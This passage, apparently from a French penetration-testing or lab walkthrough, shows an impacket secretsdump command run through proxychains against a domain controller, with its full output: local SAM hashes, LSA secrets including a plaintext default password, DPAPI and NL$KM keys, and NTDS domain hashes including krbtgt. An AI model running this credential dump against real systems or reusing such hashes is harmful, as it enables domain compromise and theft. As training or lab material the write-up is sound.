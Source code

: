 On va ensuite lister les utilitsateurs du domaine pramacorp.fr.

```
proxychains impacket/examples/secretsdump.py -use-vss Administrator@ad.dev.pramacorp.fr -k -no-pass
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.203:445-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.203:88-<><>-OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc9756f5e599c005771b32c39356b49d0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c5936d4c8385fae00c5e98c072d8ffb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:ccd758b0dfee8ee38a9306748c7c0800:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
DEV\AD$:aad3b435b51404eeaad3b435b51404ee:7aa70ed2b353ced9fc7535756aff1dd0:::
[*] DefaultPassword 
(Unknown User):ROOT#123
[*] DPAPI_SYSTEM 
 0000   01 00 00 00 01 5C 4B CA  95 F3 32 D0 26 46 B6 F3   .....\K...2.&F..
 0010   D9 CB F9 59 CD FD 07 1C  B2 8F BF 8E 0D 55 2C C7   ...Y.........U,.
 0020   BB 34 B6 2E F2 83 53 C7  35 09 23 91               .4....S.5.#.
DPAPI_SYSTEM:01000000015c4bca95f332d02646b6f3d9cbf959cdfd071cb28fbf8e0d552cc7bb34b62ef28353c735092391
[*] NL$KM 
 0000   79 BA 2F 22 52 20 B5 96  E7 F8 FF 92 69 C0 9B 60   y./"R ......i..`
 0010   68 E8 98 2F 31 E3 DF 52  35 8F 00 8E 39 1F 2D 33   h../1..R5...9.-3
 0020   75 42 3C E5 53 39 B1 4B  06 4E 55 99 00 16 67 7C   uB<.S9.K.NU...g|
 0030   5D 31 A6 B8 C3 5C 7C 6C  FE 59 FF AB 5B 2E 9F 05   ]1...\|l.Y..[...
NL$KM:79ba2f225220b596e7f8ff9269c09b6068e8982f31e3df52358f008e391f2d3375423ce55339b14b064e55990016677c5d31a6b8c35c7c6cfe59ffab5b2e9f05
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f5af1c6e1943f16eb81d04968f365d24
[*] Reading and decrypting hashes from \\ad.dev.pramacorp.fr\ADMIN$\Temp\UCLxymdg.tmp 
AD$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5df5230c6fb4950cead63fe951090177:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
AD$:1001:aad3b435b51404eeaad3b435b51404ee:7aa70ed2b353ced9fc7535756aff1dd0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e65b41757ea496c2c60e82c05ba8b373:::
CORP$:1102:aad3b435b51404eeaad3b435b51404ee:eb7be87ea606706ec98d2ba2f109c5ad:::
DEVDESK01$:1103:aad3b435b51404eeaad3b435b51404ee:4595b8f20f138e39e30861cb0811d853:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DEV$:1104:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Bremand:2544:aad3b435b51404eeaad3b435b51404ee:780d0496bc0f9be5370bdb3ba0733ce4:::
Anderem:2545:aad3b435b51404eeaad3b435b51404ee:152d215a71c0897aab0b37b02b8f9d5c:::
```
